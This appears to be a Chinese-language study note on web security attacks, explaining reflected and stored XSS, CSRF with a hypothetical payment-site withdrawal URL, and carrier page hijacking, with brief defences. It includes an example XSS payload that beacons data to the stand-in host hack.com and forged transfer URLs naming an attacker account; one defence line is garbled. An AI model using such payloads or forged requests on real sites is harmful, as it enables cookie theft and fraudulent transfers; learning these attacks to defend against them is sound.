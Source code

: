 ### - XSS
> `cross site scripting` 跨站脚本攻击 
>  攻击者往 web 页面插入恶意 Script 代码，  
>  当其他用户浏览该网页时，嵌入的脚本代码就会被执行，从而到达恶意攻击用户的目的

1. 反射型 

> https://www.xxx.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
> 很多站点都提供搜索服务，如果把搜索的关键词修改为可执行的javascript语句  
> 服务器不加处理将类似的代码现实到页面  
> XSS代码将会被执行

2. 存储型

> 利用站点本身合法的存储结构，通过站点提供的接口提交XSS代码  
> 会被存储到服务器上 当其他用户访问该网页时，服务器把包含XSS的内容反馈给用户  
> 从而攻击用户

##### 服务器都会将javascript当作文本处理， 在服务端整合进HTML文档中
##### 在浏览器解析这些文本的过程 也就是XSS被执行的时候
##### 所有最主要的防范措施就是 对任何用户提交到服务器上的文本都要经过编码或者转译



### - CSRF
> `cross-site request forgery` 跨站请求伪造  
> 通过伪装来自守信用户的请求来利用  
> 攻击者盗用了你的身份，以你的名义发送恶意请求  

> 我们先假设支付宝存在CSRF漏洞，我的支付宝账号是lyq，攻击者的支付宝账号是xxx。  
> 然后我们通过网页请求的方式 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=lyq2  
> 可以把我账号lyq的10000元转到我的另外一个账号lyq2上去。通常情况下，该请求发送到支付宝服务器后,  
> 服务器会先验证该请求是否来自一个合法的session并且该session的用户已经成功登陆。攻击者在支付吧也有账号xxx， 
> 他知道上文中的URL可以进行转账操作，于是他自己可以发送一个请求 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx 到支付宝后台。  
> 但是这个请求是来自攻击者而不是来自我lyq，所以不能通过安全认证，因此该请求作废。  
> 这时，攻击者xxx想到了用CSRF的方式，他自己做了个黄色网站，在网站中放了如下代码：http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx并且通过黄色链接诱使我来访问他的网站。  
> 当我禁不住诱惑时就会点了进去，上述请求就会从我自己的浏览器发送到支付宝，  
> 而且这个请求会附带我的浏览器中的cookie。  
> 大多数情况下，该请求会失败，因为支付宝要求我的认证信息，但是我如果刚访问支付宝不久，还没有关闭支付宝页面，  
> 我的浏览器中的cookie存有我的认证信息，这个请求就会得到响应，从我的账户中转10000元到xxx账户里，而我丝毫不知情，攻击者拿到钱后逍遥法外。所以以后一定要克制住自己，不要随便打开别人的链接。

#### CSRF 防御措施主要有验证 HTTP Referer 字段，和 添加 token 验证、验证码 



### - 页面劫持
1. 跳转型  

> 用户输入地址A，但是跳转到地址B，用户输入baidu.com跳转到so.com或者sm.cn，并且对方网站有故意做成和百度搜索差不多的样子。  

##### 这种劫持，输入 url 到 页面加载结束，判断 url 是否一致

2.注入型

> 在页面传输过程中，对内容进行再加工（注入 js、iframe、篡改页面）。注入js的方式可以通过document.write或者直接改html代码片段等方式，给页面增加外链js，为了做到更难检测，有些运营商会捏造一个不存在的url地址，从而不被过滤或者检测。  

```
案例1：运营商会用自己识别的ip或者域名做js网址，wap.zjtoolbar.10086.cn这类只有在浙江移动网络下才会被解析出来，同理ip也是

案例2：运营商很聪明，知道页面可以检测所有外链js的域名，比如：m.baidu.com我只允许m.baidu.com/static的外链js，其他js都会  
被记录反馈为了不被检测出来，我遇见个case电信会访问一个不存在的地址，比如：m.baidu.com/static/abc.js，这个地址在运营商直  
接返回劫持的js代码,请求不会发到百度的服务器。
```  

##### 改写 `document.write` 方法 和  `window.top = parent!== window` 和  `https://`
    







